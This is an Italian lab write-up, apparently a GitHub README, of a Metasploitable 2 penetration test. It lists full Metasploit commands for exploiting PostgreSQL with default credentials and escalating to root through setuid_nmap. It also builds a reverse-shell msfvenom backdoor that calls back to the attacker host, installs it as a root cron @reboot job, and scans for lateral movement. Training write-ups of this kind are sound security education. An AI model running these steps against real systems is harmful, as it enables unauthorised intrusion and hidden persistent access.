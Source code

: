 # 🚀 **Penetration Testing: Metasploitable 2 - Privilege Escalation & Persistence**

## 🎯 **Obiettivo**
Eseguire:
1. 🔍 **Exploitation** di una vulnerabilità PostgreSQL su Metasploitable 2
2. 🛠️ **Escalation di privilegi** per ottenere root
3. 🔐 **Persistenza** tramite una backdoor
4. 🌐 Preparazione al **movimento laterale** e troubleshooting

---

## 🔎 **1. Scansione e Identificazione dei Servizi**
### 🛠️ **Scansione con Nmap**
Abbiamo effettuato una scansione per identificare i servizi vulnerabili sulla macchina **Metasploitable 2**:

```bash
nmap -sV 192.168.1.152
```

**📊 Risultato:**
- **PostgreSQL** è attivo sulla porta `5432/tcp` con la versione `PostgreSQL DB 8.3.0`.

---

## 💥 **2. Exploitation: PostgreSQL**
### 🎯 **Uso del modulo PostgreSQL Payload**
Abbiamo utilizzato Metasploit per sfruttare PostgreSQL e ottenere una sessione **Meterpreter**.

**⚙️ Comandi usati:**
```bash
use exploit/linux/postgres/postgres_payload
set RHOST 192.168.1.152
set USERNAME postgres
set PASSWORD postgres
set LHOST 192.168.1.150
set LPORT 4445
run
```

**✅ Risultato:**
- **Sessione Meterpreter** ottenuta con successo!

---

## 🛡️ **3. Escalation di Privilegi**
### 🔍 **Utilizzo del modulo Local Exploit Suggester**
Abbiamo identificato possibili vulnerabilità locali per l'escalation di privilegi.

**⚙️ Comandi eseguiti:**
```bash
background
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

**📝 Exploit suggeriti:**
1. `glibc_ld_audit_dso_load_priv_esc`
2. `setuid_nmap`

### 🚀 **Sfruttamento dell'exploit**
Abbiamo tentato l'exploit `setuid_nmap` per ottenere i privilegi root:

```bash
use exploit/linux/local/setuid_nmap
set SESSION 1
run
```

**✅ Risultato:**
- Escalation riuscita: utente `root` ottenuto!

**🔍 Verifica:**
```bash
getuid
whoami
```

---

## 🔐 **4. Persistenza della Backdoor**
Abbiamo configurato una **backdoor persistente** per mantenere l'accesso anche dopo un riavvio.

### 🛠️ **Creazione del Payload**
Generazione del payload con **msfvenom**:

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.150 LPORT=4445 -f elf > backdoor.elf
```

### 📤 **Caricamento del Payload**
Utilizzando Meterpreter:

```bash
upload backdoor.elf /usr/local/bin/persistence
chmod +x /usr/local/bin/persistence
```

### 🕒 **Configurazione del Cron Job**
Abbiamo configurato un **cron job** per avviare la backdoor ad ogni riavvio:

```bash
echo "@reboot /usr/local/bin/persistence" >> /etc/cron.d/root_persistence
cat /etc/cron.d/root_persistence
```

**✅ Risultato:**
- Backdoor configurata correttamente per l'avvio automatico.

---

## 🔄 **5. Verifica della Persistenza**
### 🔄 **Riavvio della macchina Metasploitable**
Abbiamo riavviato la macchina Metasploitable e verificato il listener Metasploit.

**🎧 Listener su Kali Linux:**

```bash
use exploit/multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.1.150
set LPORT 4445
run
```

**✅ Risultato:**
- La connessione **Meterpreter** è stata ristabilita automaticamente.

---

## 🌐 **6. Troubleshooting e Movimento Laterale**
### 🔎 **Identificazione di altre macchine nella rete**
Abbiamo utilizzato **ARP Scanner** per identificare altri host nella rete locale:

```bash
run post/multi/gather/arp_scanner
```

### 🛠️ **Scansione delle macchine rilevate**
Abbiamo eseguito una scansione con Nmap per identificare nuovi servizi sfruttabili:

```bash
nmap -sV 192.168.1.0/24
```

---

## 🏁 **Conclusioni**
1. 🎯 Ottenuta una sessione Meterpreter tramite PostgreSQL.
2. 🔝 Escalation dei privilegi a **root** utilizzando `setuid_nmap`.
3. 🔐 Configurata una **backdoor persistente** che sopravvive ai riavvii.
4. 🌐 Avviato il movimento laterale per esplorare altri host nella rete.

**🚀 Prossimi Passi:**
- Automatizzare ulteriormente la persistenza.
- Sfruttare altre vulnerabilità per movimento laterale.

---

**🛠️ Tools utilizzati**:
- Kali Linux
- Metasploit Framework
- Nmap
- msfvenom

---

📚 **Note:** Questo documento è stato creato per scopi didattici e di ricerca in cybersecurity.
